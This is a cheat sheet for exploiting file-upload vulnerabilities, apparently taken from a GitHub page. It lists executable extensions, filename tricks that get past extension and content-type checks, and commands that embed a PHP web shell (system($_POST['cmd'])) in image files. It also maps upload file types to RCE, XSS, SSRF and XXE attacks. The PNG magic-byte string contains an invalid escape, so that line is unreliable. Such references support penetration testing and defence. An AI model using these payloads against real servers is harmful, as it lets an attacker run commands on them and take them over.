 # 🗃️ file upload vulnerability

## File Upload Vulnerability Cheat Sheet

### Methodology

#### Useful Extensions

```
PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

Working in PHPv8: .php, .php4, .php5, .phtml, .module, .inc, .hphp, .ctp

ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml

Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action

Coldfusion: .cfm, .cfml, .cfc, .dbm

Flash: .swf

Perl: .pl, .cgi

Erlang Yaws Web Server: .yaws
```

#### Bypass File Extension Checks

```
pHp, .pHP5, .PhAr ...

file.png.php
file.png.Php5

file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.php....
file.pHp5....

file.png.php
file.png.pHp5
file.php#.png
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
file.phpJunk123png

file.png.jpg.php
file.php%00.png%00.jpg

file.php.png
```

#### Bypass Content-Type, Magic Number

[Content Type Worldlist](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)

**Bypass Magic Number**

```
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```

```
echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
```

#### Tools

[Upload Bypass](https://github.com/sAjibuu/Upload\_Bypass)

#### From File upload to other vulnerabilities

```
ASP / ASPX / PHP5 / PHP / PHP3: Webshell / RCE
SVG: Stored XSS / SSRF / XXE
GIF: Stored XSS / SSRF
CSV: CSV injection
XML: XXE
AVI: LFI / SSRF
HTML / JS : HTML injection / XSS / Open redirect
PNG / JPEG: Pixel flood attack (DoS)
ZIP: RCE via LFI / DoS
PDF / PPTX: SSRF / BLIND XXE
```

#### Magic Header Bytes

```
PNG: "\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03["
JPG: "\xff\xd8\xff"
```

## References

[HackTricks Book](https://book.hacktricks.xyz/pentesting-web/file-upload)
